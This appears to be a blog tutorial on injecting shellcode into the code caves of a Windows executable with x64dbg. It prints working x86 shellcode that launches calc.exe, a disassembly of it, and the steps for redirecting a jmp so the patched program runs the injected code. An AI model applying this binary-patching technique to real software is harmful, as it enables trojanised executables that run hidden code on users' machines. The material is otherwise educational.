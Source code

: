 ```yaml
---
title: "Using code caves to inject custom shellcode"
classes: wide
header:
  teaser: /assets/images/injection/codecaves/codecaves.png
ribbon: DodgerBlue
description: "Learn how to use code caves to inject custom code into a .exe file"
categories:
  - Injection
toc: true
---
```


# Code caves

First of all, **what are code caves?**

Code caves are a chunk of null bytes (`0x00`) in a process's memory. Here's how they look like in `x64dbg`:

![Code cave chunk, x64dbg](/assets/images/injection/codecaves/codecaves.png)

As you may know, we can take advantage of these unused bytes to directly inject raw executable opcodes (shellcode) within the application.

We can use this simple **x86 shellcode** that opens a calculator (`calc.exe`):

// 195 bytes small Windows/x86 null-free WinExec Calc.exe shellcode.

```c
unsigned char shellcode[] = 
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";
```

First, we'll go to the shellcode, and add the following instructions:

```asm
pushad
pushfd
```

The x86 instruction `pushad` pushes all of the general-purpose register onto the stack, and the `pushfd` instruction pushes all the `EFLAGS` register onto the stack.

We need these instructions because we'll need to restore the original register state and jump back to the original execution flow after executing our shellcode:
![Writing initial instructions](/assets/images/injection/codecaves/codecaves1.png)


We can then paste our shellcode after those 2 initial instructions:

![Writing our shellcode](/assets/images/injection/codecaves/pasting.png)

We now have this code instead of the initial `0x00` bytes:
```c
00401D5D | 60                       | pushad                                  | // <--- Pushes the contents of the general-purpose registers onto the stack
00401D5E | 9C                       | pushfd                                  | // <--- Pushes the entire contents of the EFLAGS register onto the stack
00401D5F | 89E5                     | mov ebp,esp                             | // We now paste our shellcode
00401D61 | 83EC 20                  | sub esp,20                              |
00401D64 | 31DB                     | xor ebx,ebx                             |
00401D66 | 64:8B5B 30               | mov ebx,dword ptr fs:[ebx+30]           |
00401D6A | 8B5B 0C                  | mov ebx,dword ptr ds:[ebx+C]            |
00401D6D | 8B5B 1C                  | mov ebx,dword ptr ds:[ebx+1C]           |
00401D70 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D72 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D74 | 8B43 08                  | mov eax,dword ptr ds:[ebx+8]            |
00401D77 | 8945 FC                  | mov dword ptr ss:[ebp-4],eax            |
00401D7A | 8B58 3C                  | mov ebx,dword ptr ds:[eax+3C]           |
00401D7D | 01C3                     | add ebx,eax                             |
00401D7F | 8B5B 78                  | mov ebx,dword ptr ds:[ebx+78]           |
00401D82 | 01C3                     | add ebx,eax                             |
00401D84 | 8B7B 20                  | mov edi,dword ptr ds:[ebx+20]           | edi:EntryPoint
00401D87 | 01C7                     | add edi,eax                             | edi:EntryPoint
00401D89 | 897D F8                  | mov dword ptr ss:[ebp-8],edi            | edi:EntryPoint
00401D8C | 8B4B 24                  | mov ecx,dword ptr ds:[ebx+24]           | ecx:EntryPoint
00401D8F | 01C1                     | add ecx,eax                             | ecx:EntryPoint
00401D91 | 894D F4                  | mov dword ptr ss:[ebp-C],ecx            | ecx:EntryPoint
00401D94 | 8B53 1C                  | mov edx,dword ptr ds:[ebx+1C]           | edx:EntryPoint
00401D97 | 01C2                     | add edx,eax                             | edx:EntryPoint
00401D99 | 8955 F0                  | mov dword ptr ss:[ebp-10],edx           | edx:EntryPoint
00401D9C | 8B53 14                  | mov edx,dword ptr ds:[ebx+14]           | edx:EntryPoint
00401D9F | 8955 EC                  | mov dword ptr ss:[ebp-14],edx           | edx:EntryPoint
00401DA2 | EB 32                    | jmp codecaving.401DD6                   |
00401DA4 | 31C0                     | xor eax,eax                             |
00401DA6 | 8B55 EC                  | mov edx,dword ptr ss:[ebp-14]           | edx:EntryPoint
00401DA9 | 8B7D F8                  | mov edi,dword ptr ss:[ebp-8]            | edi:EntryPoint
00401DAC | 8B75 18                  | mov esi,dword ptr ss:[ebp+18]           | esi:EntryPoint
00401DAF | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DB1 | FC                       | cld                                     |
00401DB2 | 8B3C87                   | mov edi,dword ptr ds:[edi+eax*4]        | edi:EntryPoint
00401DB5 | 037D FC                  | add edi,dword ptr ss:[ebp-4]            | edi:EntryPoint
00401DB8 | 66:83C1 08               | add cx,8                                |
00401DBC | F3:A6                    | repe cmpsb                              |
00401DBE | 74 05                    | je codecaving.401DC5                    |
00401DC0 | 40                       | inc eax                                 |
00401DC1 | 39D0                     | cmp eax,edx                             | edx:EntryPoint
00401DC3 | 72 E4                    | jb codecaving.401DA9                    |
00401DC5 | 8B4D F4                  | mov ecx,dword ptr ss:[ebp-C]            | ecx:EntryPoint
00401DC8 | 8B55 F0                  | mov edx,dword ptr ss:[ebp-10]           | edx:EntryPoint
00401DCB | 66:8B0441                | mov ax,word ptr ds:[ecx+eax*2]          |
00401DCF | 8B0482                   | mov eax,dword ptr ds:[edx+eax*4]        |
00401DD2 | 0345 FC                  | add eax,dword ptr ss:[ebp-4]            |
00401DD5 | C3                       | ret                                     |
00401DD6 | BA 78786563              | mov edx,63657878                        | edx:EntryPoint
00401DDB | C1EA 08                  | shr edx,8                               | edx:EntryPoint
00401DDE | 52                       | push edx                                | edx:EntryPoint
00401DDF | 68 57696E45              | push 456E6957                           |
00401DE4 | 8965 18                  | mov dword ptr ss:[ebp+18],esp           |
00401DE7 | E8 B8FFFFFF              | call codecaving.401DA4                  |
00401DEC | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DEE | 51                       | push ecx                                | ecx:EntryPoint
00401DEF | 68 2E657865              | push 6578652E                           |
00401DF4 | 68 63616C63              | push 636C6163                           |
00401DF9 | 89E3                     | mov ebx,esp                             |
00401DFB | 41                       | inc ecx                                 | ecx:EntryPoint
00401DFC | 51                       | push ecx                                | ecx:EntryPoint
00401DFD | 53                       | push ebx                                |
00401DFE | FFD0                     | call eax                                |
00401E00 | E8 A5020000              | call codecaving.4020AA                  | // end of shellcode
```

Now, after we pasted our shellcode, we need to modify our exe's code so that we `jmp` to the address of the start of the shellcode (`00401D5D`),

and then add a jmp instruction at the *end* of the shellcode to `jmp` back to the original execution flow (so that we don't break the program).

I chose this instruction to modify:
```c
jmp 0x00401D14
```
So first, let's modify that instruction instruction to `jmp` to the start of our shellcode (at address `00401D5D`) instead of `00401D14`

So instead of `jmp 0x00401D14`, it will be `jmp 00401D5D`:
![Jumping to our shellcode](/assets/images/injection/codecaves/oep.png)

And then at the end of our shellcode, we `jmp` to the actual instruction that the original `jmp` went to (`0x00401D14`):

![Jumping to our shellcode](/assets/images/injection/codecaves/end.png)

Now, after applying our patches in `x64dbg`, we can see that the program also launches `calc.exe` alongside its original execution:

![Successfully opening calc.exe](/assets/images/injection/codecaves/success.png)



